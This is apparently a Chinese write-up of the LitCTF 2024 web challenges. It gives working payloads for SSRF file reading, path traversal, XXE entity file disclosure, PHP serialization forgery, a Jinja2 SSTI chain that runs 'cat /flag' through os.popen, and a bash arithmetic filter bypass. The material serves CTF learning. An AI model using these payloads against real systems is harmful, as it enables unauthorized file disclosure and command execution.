# Litctf2024-web全题解-先知社区

> **来源**: https://xz.aliyun.com/news/16134  
> **文章ID**: 16134

---

本次比赛最终成绩校内第4



在此仅分享web方向题解

## 浏览器也能套娃？

打开后是以下界面，输入百度尝试一下



发现可以跳转，猜测应该是SSRF，尝试读取文件

输入 file:///flag 读取flag



## 高亮主题(划掉)背景查看器

打开后没什么有用的信息，查看源代码发现



可能是文件包含漏洞，burpsuite抓包试试



发现一处传参点，结合提示，尝试读取flag，最终pyload

```
theme=../../../../../flag

```



## exx

根据题目提示，猜测可能是**xxe**漏洞，打开页面是一个登录框，随意输入抓包



可以确定是有回显xxe漏洞，利用脚本尝试，成功读取flag

```
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root[                     
       <!ENTITY a SYSTEM "file:///flag">   
       ]>
<user><username>1&a;</username><password>1</password></user>

```



## SAS - Serializing Authenticati

一道简单的反序列化题，但是最后提交的数据需要反序列化一次再base64解码



利用脚本

```
<?php
class User {

    public $username="admin";

    public $password="secure_password";
}

$a=new User;
echo base64_encode(serialize($a));
?>

```

结果放入输入框即可得出flag



## 一个....池子？

打开后提示回声池，可能是SSTI  
输入{{2 \* 2}}，查看结果


有回显，存在注入，直接读取

```
{{''. class . bases [0]. subclasses ()[239]. init . globals [' b uiltins ']['eval'](' import ("os").popen("cat /flag").read()')}}

```



## 百万美元的诱惑

php代码审计



绕过第一层



绕过第二层,得到一个提示



访问得到以下代码



根据代码审计，能看到最终要$x=12.php,而且这是无字母数字的正则匹配,利用未被过滤的**$()**执行操作，重复12次

```
$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))

```

得出结果：


